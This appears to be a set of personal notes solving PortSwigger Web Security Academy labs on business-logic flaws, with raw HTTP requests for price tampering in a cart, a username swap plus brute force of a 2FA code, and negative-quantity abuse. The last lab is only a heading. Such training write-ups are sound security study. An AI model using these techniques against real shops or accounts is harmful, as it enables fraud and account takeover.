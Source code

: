 # Business logic vulnerabilities
https://portswigger.net/web-security/logic-flaws

# https://portswigger.net/web-security/logic-flaws/examples
https://portswigger.net/web-security/logic-flaws/examples

# ***1. Lab: Excessive trust in client-side controls***
https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls

To solve the lab, buy a "Lightweight l33t leather jacket". 

add the item to cart and find the request in burp:
    POST /cart HTTP/1.1
    Host: 0a9c002a04b87e35c0d67b0d00ce0043.web-security-academy.net
    Cookie: session=LGMwHDwHNZB47FAVYui4ALNCh8OVxcTC
    Content-Length: 48


    productId=1&redir=PRODUCT&quantity=1&price=133700

change the price to 100 (which translates to 1$)

    productId=1&redir=PRODUCT&quantity=1&price=100

enter to the cart - now we have enpough funds - make the purchse

# 1337 own!

# ***2. Lab: 2FA broken logic***
https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic

To solve the lab, access Carlos's account page. 

**start login process and observe requests:**
1. initiate process:
    GET /login HTTP/1.1

2. send username and password:
    POST /login HTTP/1.1

    username=wiener&password=peter

3. initate mfa process:
    GET /login2 HTTP/1.1

4. send mfa pin code recieve by email:
    POST /login2 HTTP/1.1
    Cookie: session=hb0XBJWhxcjHxyHrQ353WaRe6k6LH9Le; verify=wiener


    mfa-code=1234

- note that username value can be changed 
- note there is no limit on how many failed attempts - so brute force is possible.

**Attack:**
send **POST /login2 HTTP/1.1** to intruder at change username to carlos and mark the pincode as variable. go to payload and choose numbers 0 to 9999 in steps of 1. 
initiate attack and look for **HTTP/1.1 302 Found**


# ***3.Lab: High-level logic vulnerability***
https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level

To solve the lab, buy a "Lightweight l33t leather jacket". 

login and add the 1337 jacket to cart. find request:
    POST /cart HTTP/1.1

    productId=1&quantity=1&redir=CART

remove it from cart - observe request:
    POST /cart HTTP/1.1

    productId=1&quantity=-1&redir=CART

we sse quantity field recieves negative numbers. send request with negative value again and observe cart total is -1337$. try to **place order** and observe error message: 

Cart total price cannot be less than zero 

add items in total value of 1338$ - 1436$ (so Cart value will be between 1$ to 100$ - our **store credit**)

place order again - observe success!



# ***4. Lab: Low-level logic flaw***
https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level

To solve the lab, buy a "Lightweight l33t leather jacket"

